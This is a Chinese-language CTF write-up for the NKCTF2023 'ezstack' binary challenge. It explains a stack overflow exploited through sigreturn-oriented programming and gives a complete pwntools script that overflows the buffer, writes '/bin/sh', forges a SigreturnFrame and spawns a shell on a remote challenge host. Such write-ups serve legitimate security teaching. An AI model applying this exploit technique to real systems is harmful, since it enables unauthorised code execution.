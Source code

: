 # NKCTF2023ezstack - SROP初探


```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

鉴定为，没有保护。

核心代码很短：

```
.text:00000000004011B9 vuln            proc near               ; CODE XREF: main+17↓p
.text:00000000004011B9
.text:00000000004011B9 buf             = byte ptr -10h
.text:00000000004011B9
.text:00000000004011B9 ; __unwind {
.text:00000000004011B9                 endbr64
.text:00000000004011BD                 push    rbp
.text:00000000004011BE                 mov     rbp, rsp
.text:00000000004011C1                 mov     rax, 1
.text:00000000004011C8                 mov     rdx, 26h ; '&'  ; count
.text:00000000004011CF                 lea     rsi, nkctf      ; "Welcome to the binary world of NKCTF!\n"
.text:00000000004011D7                 mov     rdi, rax        ; fd
.text:00000000004011DA                 syscall                 ; LINUX - sys_write
.text:00000000004011DC                 xor     rax, rax
.text:00000000004011DF                 mov     rdx, 200h       ; count
.text:00000000004011E6                 lea     rsi, [rsp+buf]  ; buf
.text:00000000004011EB                 mov     rdi, rax        ; fd
.text:00000000004011EE                 syscall                 ; LINUX - sys_read
.text:00000000004011F0                 mov     eax, 0
.text:00000000004011F5                 pop     rbp
.text:00000000004011F6                 retn
.text:00000000004011F6 ; } // starts at 4011B9
.text:00000000004011F6 vuln            endp
```



一开始以为是ret2libc，本想想办法leak地址，发现无法控制rax为1调用输出的syscall。ROPgadget发现了一些奇怪的东西：

```
.text:0000000000401146                 mov     rax, 0Fh
.text:000000000040114D                 retn
.text:000000000040114E                 syscall                 ; LINUX -
.text:0000000000401150                 retn
```

查了一下，0x0F号系统调用是`rt_sigreturn`系统调用，推测可以使用SROP

SROP是一种利用Linux信号机制的漏洞利用方法。当用户发出信号请求时，会发生这样的事情：

保存上下文（在用户态栈上）→执行信号处理函数→从信号处理函数返回→从用户栈上恢复上下文

这里的问题在于这个过程中的最后一步是通过信号处理函数调用`rt_sigreturn`系统调用实现的，也就是说“从用户栈上恢复上下文”这个操作可以被攻击者直接执行。

也就是说，我们只需要在用户态栈上伪造一个上下文，然后调用`rt_sigreturn`让系统恢复上下文即可getshell。具体来说，我们按下面的规则在栈上伪造一个上下文：

```
rax=59
rdi = &/bin/sh
rsi = 0
rdx=0
rip=&syscall; ret
```

在调用`rt_sigreturn`时，系统会按上面的指分别设置各个寄存器，就可以执行execve("/bin/sh")了。

现在的问题是如何获得一个/bin/sh字符串。

发现程序中有一个输出`welcome to nkctf`的代码，如果我们在ret的时候ret到`0x4011c8`处，就可以跳过`mov rax, 1`的执行，此时rax为0，触发LINUX - read系统调用，此时我们可以在这个字符串内写入/bin/sh。

到这里思路就很明显了：

1. ret到`0x4011c8`处，写入`/bin/sh`字符串，然后触发第二次读入。
2. ret到vuln()起始地址，验证`/bin/sh`写入是否成功，同时准备写入SigreturnFrame（可跳过）
3. 控制ret地址为`mov rax, 15; ret; syscall; ret`，同时布置栈，写入伪造的SigreturnFrame。

完整exp：

```python
from pwn import *
elf = ELF("./ez_stack")

#p = process("./ez_stack")
p = remote("node2.yuzhian.com.cn", 39984)

context.arch = 'amd64'
context.log_level = 'debug'

p.recvuntil(b"NKCTF!\n")
leak_addr = 0x4011c8
vuln_addr = 0x4011b9
nkctf_addr = 0x404040
syscall_addr = 0x40114e
sigret_addr = 0x401146

payload = b"A" * (16+8)
payload += p64(leak_addr)#write nkctf_string
p.send(payload.ljust(0x200, b"A"))

#write /bin/sh
p.send(b"/bin/sh\x00"+b"a"*(0x26-8))
#try SROP
payload = b"a"*(16+8) + p64(vuln_addr)
p.send(payload)
p.recvuntil(b"/bin/sh\x00"+b"a"*(0x26-8))
frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = nkctf_addr #&'/bin/sh'
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_addr
#print(frame)
frame = b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00@@@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00;\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00N\x11@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x003\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
payload = b'a'* (16+8)
payload += p64(sigret_addr) #强制sigreturn，改变frame
payload += p64(syscall_addr)
payload += frame
#payload += p64(vuln_addr)
p.send(payload)
p.interactive()
```


